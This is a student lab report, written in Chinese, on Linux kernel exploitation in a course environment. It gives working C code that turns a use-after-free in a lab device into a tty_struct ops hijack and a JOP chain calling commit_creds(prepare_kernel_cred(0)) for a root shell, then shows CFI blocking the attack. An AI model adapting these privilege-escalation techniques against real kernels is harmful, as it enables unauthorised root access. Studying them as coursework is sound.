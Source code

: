 ```yaml
---
counter: True
comment: True
---
```


# Linux 内核 JOP 攻击与防护

!!! abstract
    系统安全 lab3（bonus）实验报告

    !!! warning "仅供学习参考，请勿抄袭"

## 实验目标

了解 UAF (Use-After-Free) 类型的漏洞以及 JOP (Jump-oriented programming) 攻击原理，并在此基础上，通过现有的 UAF 漏洞和 JOP 编程，实现获取 Linux 内核的 root 权限的 PoC (Proof of Concept)，并读取一个只有 root 权限下可读的文件，获取 flag。

- 利用 gdb 调试内核，获取内核关键函数和 gadget 的地址；
- 了解 Linux 设备提供的接口和其调用逻辑，并尝试使用 Linux 设备接口进行基础编程，了解 Linux 如何利用系统调用的方式触发内核设备中相应的函数；
- 理解 UAF 漏洞原理，以及漏洞的利用方式；使用 gdb-multiarch 对所提供的未压缩的内核 (vmlinux) 进行调试，查找设备 UAF 漏洞所在的位置及触发条件，获取内核 tty_struct 结构体的内容，并利用设备接口控制该结构体的内容，为 root 内核做准备；
- 了解 JOP 攻击的原理，尝试利用设备接口触发 UAF 漏洞，并挟持控制流，通过 JOP 攻击绕过 PXN 机制，获取内核的 root 权限；
- 利用提供的 gadget 片段，构造 JOP 攻击跳转链，获取 root 权限的 shell。

## 实验过程

### Task 1

因为在 zjudev 设备中只有一个 zjudev 结构体，开启多个设备其实在共用一个结构体，因此在开启两个 zjudev 设备后 free 掉其中一个，则另一个 zjudev 设备的 dev_buf 指针值仍然保留，存在 UAF 漏洞。

这里可以创建两个 zjudev 设备，然后利用一个设备分配一个 0x2B8 大小的堆，再通过 close 释放掉这个堆。接下来开启 ptmx 设备，这时有概率会将 ptmx 的 tty_struct 结构体创建在之前 free 掉的设备的堆上，而这个位置可以通过另一个 zjudev 设备来进行 UAF 读取。

> **Question 2. 如何确定自己所控制的指针一定被分配给 tty_struct 结构体？**

因为 ptmx 设备在初始化的时候会分配 tty_struct 结构体，这个结构体的头四字节为一个 int，表示 magic，当 magic 为 0x5401 时时，表示这个结构体是一个 tty_struct 结构体。所以我们可以通过 zjudev UAF 读取，如果头四字节时 0x5401 的话，则说明我们所控制的指针是 tty_struct 结构体。否则不是，则需要重新创建 ptmx 设备。

这部分代码如下：

```c 
struct tty_struct {
    int magic;
    char rest[0x2B8 - 4];
} tty_buf;

int main() {
    int dev_fd1 = open("/dev/zjudev", O_RDWR);
    int dev_fd = open("/dev/zjudev", O_RDWR);
    ioctl(dev_fd1, 0x0001, 0x2B8);
    close(dev_fd1);
    int ptmx_fd;
    while (1) {
        ptmx_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY);
        memset(&tty_buf, 0, sizeof(tty_buf));
        read(dev_fd, &tty_buf, 0x2B8 - 1);
        printf("[*] tty_buf.magic: 0x%x\n", tty_buf.magic);
        if (tty_buf.magic == 0x5401) {
            break;
        }
        close(ptmx_fd);
    }
    printf("[+] ptmx_fd: %d\n", ptmx_fd);
    close(ptmx_fd);
    return 0;
}
```

./qemu.sh 启动内核后，cat > exp.c 将上述代码粘贴写入 exp.c 文件，然后 gcc exp.c -o exp 编译再通过 ./exp 运行，可见我们可以成功控制到 tty_struct 结构体：

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/lab3/img1.png" width="70%" style="margin: 0 auto;">
</div>


### Task 2

tty_struct 结构体中有 const struct tty_operations *ops 指针，这个指针指向的 tty_operations 结构体中包含 36 个函数指针，每个函数指针指向了一个针对 ptmx 设备进行操作的函数，其中第五个函数是 close。我们在 Task 1 中控制 zjudev 的 buffer 和 tty_struct 指向了同一位置，并且 zjudev 可以通过 write 对于 buffer 进行写入，所以我们可以覆盖 ops 指针，使其指向我们自己的一个结构体（因为没有 SMAP 保护，所以内核可以读取用户态我们创建的结构体），其中第五个函数指针的位置写为 hack_cred 函数的地址。这样在覆盖之后我们 close(ptmx) 的时候就会查找到 close 函数指针的位置，然后调用 hack_cred 函数进行提权。

因为没有开启 KASLR，所以 hack_cred 的地址可以直接在 System.map 中找到：

```text
❯ cat kernel/nocfi/System.map | grep hack_cred
ffff80001083aa84 T hack_cred
```

所以这部分的攻击代码如下：

```c 
size_t hack_cred_addr = 0xffff80001083aa84;

struct tty_operations {
    char prefix[8 * 4];
    void *close;
    char rest[8 * 31];
} hack_ops;

struct tty_struct {
    int magic;
    char kref_dev_driver_data[20];
    struct tty_operations *ops;
    char rest[0x2B8 - 32];
} tty_buf, hack_buf;

void task2(int dev_fd, int ptmx_fd) {
    printf("[*] task2 hacking...\n");
    memcpy(&hack_buf, &tty_buf, sizeof(tty_buf));
    hack_ops.close = (void *)hack_cred_addr;
    hack_buf.ops = &hack_ops;
    write(dev_fd, &hack_buf, 32);
    close(ptmx_fd);
    system("/bin/sh");
    return;
}
```

同样在内核中运行后，我们可以成功获取到 root 权限并读取 flag 文件：

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/lab3/img2.png" width="70%" style="margin: 0 auto;">
</div>

可以发现在进入 task2 函数之后，成功进行了提权，并在 root 权限下进入了 shell，得到 flag 内容为 NzYyNDcyMzI5MTAy。

> **Question 3. 为什么不能直接通过 UAF 控制 cred 结构体直接修改其内容？有没有办法能够通过 UAF 来利用新版本的 cred 结构体呢？**

因为在内核启动时，调用了 cred_init 函数如下：

```c 
/*
 * initialise the credentials stuff
 */
void __init cred_init(void)
{
    /* allocate a slab in which we can store credentials */
    cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,
            SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT, NULL);
}
```

然后在 prepare_kernel_cred 的时候会创建新的 cred 结构体：

```c 
struct cred *prepare_kernel_cred(struct task_struct *daemon)
{
    const struct cred *old;
    struct cred *new;

    new = kmem_cache_alloc(cred_jar, GFP_KERNEL);
...
```

而这里用的是 kmem_cache_alloc 函数，并从 cred_jar 中进行分配，而这个 cache 在创建的时候带有 SLAB_ACCOUNT 标记，表示进行隔离，这个堆块要单独存在。所以这种情况下 alloc 的内存不会和 kmalloc 释放掉的重合，因此我们无法通过 UAF 来控制 cred 结构体。并且因为 cred 结构体还有 cred_jar 都在内核态，所以在用户态也无法利用 kmem_cache_alloc 来 UAF 控制 cred 结构体。

### Task 3

直接通过 System.map 获得 gadget 地址以及 prepare_kernel_cred 和 commit_creds 地址：

```text
❯ cat kernel/nocfi/System.map | grep zju_gadget
ffff80001083aa44 T zju_gadget1
ffff80001083aa5c T zju_gadget2
ffff80001083aa74 T zju_gadget3
❯ cat kernel/nocfi/System.map | grep prepare_kernel_cred
ffff8000100b6030 T prepare_kernel_cred
...
❯ cat kernel/nocfi/System.map | grep commit_creds
ffff8000100b5bac T commit_creds
...
```

接下来我们需要通过三个 gadget 来完成对 commit_creds(prepare_kernel_cred(0)) 的调用。首先看这三个 gadget 的功能：

- gadget1：将 x0+0x38 地址的值赋值给 x1，把 x2 的值赋值给 x0，然后跳转到 x1 地址；
- gadget2：给 x0 赋值 0，将 x2+0x28 地址的值赋值给 x1，然后跳转到 x1 地址；
- gadget3：直接 ret。

并且在 ARM 的调用规范中参数分别存储在 x0 x1 x2 中，返回值在 x0 中。

从里往外看，我们需要先调用 prepare_kernel_cred(0)，在三个 gadget 中 gadget2 将第一个参数 x0 赋值为了 0，所以可以通过 gadget2 来调用 prepare_kernel_cred，这就需要 x1 也就是 x2+0x28 地址处的值为 prepare_kernel_cred 的地址。如果要利用 tty_struct 来进行 x2+0x28 的存储，则需要先获取 tty_struct 的地址。

为了获取 tty_struct 地址，在实验指导中我们知道 ioctl 函数在调用 tty_operations 中的 ioctl 函数的时候就已经将第一个参数即 x0 改为 tty_struct 地址了，所以我们直接用 gadget3 返回即可将地址存入 x0 即返回值中。

接下来在调用了 prepare_kernel_cred(0) 之后，x0 也就是返回值就是带有 root 权限的 cred 结构体的地址了，接下来只需要将这个地址作为第一个参数调用 commit_creds 函数即可，这里可以使用 gadget1，将 commit_creds 地址存入 x0+0x38 也就是 tty_struct+0x38 中，然后将第二个参数即 x2 赋值为 root_cred，这样在调用的时候就会赋值到 x0 中作为第一个参数调用 commit_creds。

另外需要注意，ioctl 返回的类型是 int，只有四个字节，而这些 struct 的地址是 8 字节，但恰好头四字节都是 0xffff0000 所以只需要或上 0xffff000000000000 就可以了。

<!-- 因为调用 gadget1 时 x0 是我们不可控的，一定是 tty_struct 地址，所以我们肯定要先获取 tty_struct 地址。这样在利用 gadget2 的时候也顺势将 tty_struct 作为 -->

```c 
size_t zju_gadget1_addr = 0xffff80001083aa44;
size_t zju_gadget2_addr = 0xffff80001083aa5c;
size_t zju_gadget3_addr = 0xffff80001083aa74;
size_t prepare_kernel_cred_addr = 0xffff8000100b6030;
size_t commit_creds_addr = 0xffff8000100b5bac;

struct tty_operations {
    char prefix[8 * 4];
    void *close;
    char useless[8 * 7];
    void *ioctl;
    char rest[8 * 23];
} hack_ops;

struct tty_struct {
    int magic;
    char kref_dev_driver_data[20];
    struct tty_operations *ops;
    char useless[8];
    size_t tty_0x28;
    size_t tty_0x30;
    size_t tty_0x38;
    char rest[0x2B8 - 0x40];
} tty_buf, hack_buf;

void task3(int dev_fd, int ptmx_fd) {
    printf("[*] task3 hacking...\n");
    memcpy(&hack_buf, &tty_buf, sizeof(tty_buf));
    hack_buf.ops = &hack_ops;
    hack_buf.tty_0x28 = prepare_kernel_cred_addr;
    hack_buf.tty_0x38 = commit_creds_addr;
    write(dev_fd, &hack_buf, 0x40);
    hack_ops.ioctl = (void *)zju_gadget3_addr;
    size_t tty_struct_addr = ioctl(ptmx_fd, 0x0, 0x0) | 0xffff000000000000;
    printf("[*] tty_struct_addr: 0x%lx\n", tty_struct_addr);
    hack_ops.ioctl = (void *)zju_gadget2_addr;
    size_t root_cred = ioctl(ptmx_fd, 0x0, &hack_buf) | 0xffff000000000000;
    printf("[*] root_cred: 0x%lx\n", root_cred);
    hack_ops.ioctl = (void *)zju_gadget1_addr;
    ioctl(ptmx_fd, 0x0, root_cred);
    system("/bin/sh");
    return;
}
```

同样编译运行 exp，可以看到我们成功获取到了 root 权限：

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/lab3/img3.png" width="70%" style="margin: 0 auto;">
</div>

但实际上即使不获取 tty_struct 结构体的地址也可以。我们前面需要 tty_struct 地址的位置只有在用 gadget2 的时候需要 tty_struct 作为 x2 来使得跳转的地址在 tty_struct+0x28 中。但由于没有开启 SMAP 保护，所以内核也可以读取用户态的内存，只需要在程序里随便创建一个 buffer 然后将其 0x28 开始的位置写为 prepare_kernel_cred 函数地址，在将这个 buffer 的地址作为 x2 调用 gadget2 即可，这样我们 gadget3 也不需要了，只需要两次 ioctl 就可以完成：

```c 
size_t zju_gadget1_addr = 0xffff80001083aa44;
size_t zju_gadget2_addr = 0xffff80001083aa5c;
size_t prepare_kernel_cred_addr = 0xffff8000100b6030;
size_t commit_creds_addr = 0xffff8000100b5bac;

struct tty_operations {
    char prefix[8 * 4];
    void *close;
    char useless[8 * 7];
    void *ioctl;
    char rest[8 * 23];
} hack_ops;

struct tty_struct {
    int magic;
    char kref_dev_driver_data[20];
    struct tty_operations *ops;
    char useless[24];
    size_t tty_0x38;
    char rest[0x2B8 - 0x40];
} tty_buf, hack_buf;

struct for_gadget2 {
    char useless[0x28];
    size_t x2_0x28;
} gadget2_buf;

void task3(int dev_fd, int ptmx_fd) {
    printf("[*] task3 hacking...\n");
    memcpy(&hack_buf, &tty_buf, sizeof(tty_buf));
    hack_buf.ops = &hack_ops;
    hack_buf.tty_0x38 = commit_creds_addr;
    write(dev_fd, &hack_buf, 0x40);
    hack_ops.ioctl = (void *)zju_gadget2_addr;
    gadget2_buf.x2_0x28 = prepare_kernel_cred_addr;
    size_t root_cred = ioctl(ptmx_fd, 0x0, &gadget2_buf) | 0xffff000000000000;
    printf("[*] root_cred: 0x%lx\n", root_cred);
    hack_ops.ioctl = (void *)zju_gadget1_addr;
    ioctl(ptmx_fd, 0x0, root_cred);
    system("/bin/sh");
    return;
}
```

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/lab3/img4.png" width="70%" style="margin: 0 auto;">
</div>

> **Question 4：为什么第二步可以直接 ret 获取到 tty_struct 结构体的地址？ret 执行前后的控制流是什么样的？**

前面其实已经分析过，我们在调用 Linux 提供的 ioctl 系统调用的时候参数为 fd, cmd, arg，而它会进一步根据 fd 来分配给不同设备的 ioctl 的处理函数，在分配给 ptmx 的时候就是调用 tty_operations.ioctl(struct tty_struct \*tty, unsigned int cmd, unsigned long arg)，其 tty_struct 地址作为第一个参数是存储在 x0 中的，这时如果这个 ioctl 函数的内容只有 ret，那么就会返回 x0 的值，也就是 tty_struct 的地址。

ret 执行前后的控制流为：

- task3 函数
- 调用 ioctl(ptmx_fd, 0x0, 0x0)
- ioctl 调用 tty_operations.ioctl(&tty_struct, 0, 0)（其实是 zju_gadget3）
- zju_gadget3 中 ret 返回 tty_struct 地址
- 返回到 ioctl 中，再返回到 task3 中

### Task 4

Linux 代码的 /drivers/tty/tty_ioctl.c 中就有很多间接调用，而且函数本身也很短，比如第一个：

```c 
unsigned int tty_chars_in_buffer(struct tty_struct *tty)
{
    if (tty->ops->chars_in_buffer)
        return tty->ops->chars_in_buffer(tty);
    return 0;
}
```

没开启 CFI 的汇编如下：

```
ffff800010765554 <tty_chars_in_buffer>:
ffff800010765554:	d503233f 	paciasp
ffff800010765558:	a9bf7bfd 	stp	x29, x30, [sp, #-16]!
ffff80001076555c:	910003fd 	mov	x29, sp
ffff800010765560:	f9400c08 	ldr	x8, [x0, #24]
ffff800010765564:	f9402d08 	ldr	x8, [x8, #88]
ffff800010765568:	b4000068 	cbz	x8, ffff800010765574 <tty_chars_in_buffer+0x20>
ffff80001076556c:	d63f0100 	blr	x8
ffff800010765570:	14000002 	b	ffff800010765578 <tty_chars_in_buffer+0x24>
ffff800010765574:	2a1f03e0 	mov	w0, wzr
ffff800010765578:	a8c17bfd 	ldp	x29, x30, [sp], #16
ffff80001076557c:	d50323bf 	autiasp
ffff800010765580:	d65f03c0 	ret
```

开启了 CFI 的汇编如下：

```
ffff800008bd95f0 <tty_chars_in_buffer>:
ffff800008bd95f0:	d503233f 	paciasp
ffff800008bd95f4:	d10083ff 	sub	sp, sp, #0x20
ffff800008bd95f8:	f9400c08 	ldr	x8, [x0, #24]
ffff800008bd95fc:	a9017bfd 	stp	x29, x30, [sp, #16]
ffff800008bd9600:	910043fd 	add	x29, sp, #0x10
ffff800008bd9604:	f9402d08 	ldr	x8, [x8, #88]
ffff800008bd9608:	b4000128 	cbz	x8, ffff800008bd962c <tty_chars_in_buffer+0x3c>
ffff800008bd960c:	d00061c9 	adrp	x9, ffff800009813000 <regulator_get_current_limit.cfi_jt>
ffff800008bd9610:	912ac129 	add	x9, x9, #0xab0
ffff800008bd9614:	cb090109 	sub	x9, x8, x9
ffff800008bd9618:	93c90d29 	ror	x9, x9, #3
ffff800008bd961c:	f100253f 	cmp	x9, #0x9
ffff800008bd9620:	54000102 	b.cs	ffff800008bd9640 <tty_chars_in_buffer+0x50>  // b.hs, b.nlast
ffff800008bd9624:	d63f0100 	blr	x8
ffff800008bd9628:	14000002 	b	ffff800008bd9630 <tty_chars_in_buffer+0x40>
ffff800008bd962c:	2a1f03e0 	mov	w0, wzr
ffff800008bd9630:	a9417bfd 	ldp	x29, x30, [sp, #16]
ffff800008bd9634:	910083ff 	add	sp, sp, #0x20
ffff800008bd9638:	d50323bf 	autiasp
ffff800008bd963c:	d65f03c0 	ret
ffff800008bd9640:	a90023e0 	stp	x0, x8, [sp]
ffff800008bd9644:	d2931760 	mov	x0, #0x98bb                	// #39099
ffff800008bd9648:	f2bc3380 	movk	x0, #0xe19c, lsl #16
ffff800008bd964c:	f000ee42 	adrp	x2, ffff80000a9a4000 <dev_attr_active.104611>
ffff800008bd9650:	f2ce3760 	movk	x0, #0x71bb, lsl #32
ffff800008bd9654:	91090042 	add	x2, x2, #0x240
ffff800008bd9658:	f2f02900 	movk	x0, #0x8148, lsl #48
ffff800008bd965c:	aa0803e1 	mov	x1, x8
ffff800008bd9660:	97db5e95 	bl	ffff8000082b10b4 <__cfi_slowpath_diag>
ffff800008bd9664:	a94023e0 	ldp	x0, x8, [sp]
ffff800008bd9668:	17ffffef 	b	ffff800008bd9624 <tty_chars_in_buffer+0x34>
```

主要检测流程在于：

```
ffff800008bd9608:	b4000128 	cbz	x8, ffff800008bd962c <tty_chars_in_buffer+0x3c>
ffff800008bd960c:	d00061c9 	adrp	x9, ffff800009813000 <regulator_get_current_limit.cfi_jt>
ffff800008bd9610:	912ac129 	add	x9, x9, #0xab0
ffff800008bd9614:	cb090109 	sub	x9, x8, x9
ffff800008bd9618:	93c90d29 	ror	x9, x9, #3
ffff800008bd961c:	f100253f 	cmp	x9, #0x9
ffff800008bd9620:	54000102 	b.cs	ffff800008bd9640 <tty_chars_in_buffer+0x50>  // b.hs, b.nlast
ffff800008bd9624:	d63f0100 	blr	x8
```

x8 是要跳转的 tty->ops->chars_in_buffer 函数的地址，如果 x8 为 0 则跳转到结尾返回，否则进行比较，先 adrp x9, ... 将 regulator_get_current_limit.cfi_jt 的高地址载入 x9，再加上 0xab0，然后用 x8 减去 x9，然后右移 3 位，再和 0x9 比较，如果大于等于 0x9 则为非法地址，跳转到函数末尾的处理流程通过调用 __cfi_slowpath_diag 引发 CFI Failure 否则正常跳转到 x8 进行调用。

在开启了 CFI 的 kernel 中运行 Task 2 中修改了几个地址后的攻击代码，发现并不成功：

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/lab3/img5.png" width="100%" style="margin: 0 auto;">
</div>

出现了段错误，然后我们通过 dmesg 查看内核日志，可以发现：

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/lab3/img6.png" width="100%" style="margin: 0 auto;">
</div>

可以看到在写入 zjudev 后调用 close 的时候出现了 CFI Failure，导致攻击失败。

## 思考题回答

> **Question 1：为什么会这样？为什么两次分配的内存块地址会一样？**

因为在 glibc 的堆管理机制中，malloc 会需要通过 brk 系统调用来分配内存，这一步比较消耗时间，为了避免频繁分配和释放内存造成的性能影响，glibc 会将释放掉的内存 chunk 放入一些 bin 的链表中，在下次分配同样大小的 chunk 时，可以直接从 bin 中取出来，不需要再次通过 brk 进行分配。所以如果我们刚刚 free 了一个 chunk，然后又 malloc 了同样大小的 chunk，则大概率会直接从 bin 中取出来，所以地址是一样的。

Question 2-4 在上面 Task 1-3 的实验过程中已经回答。


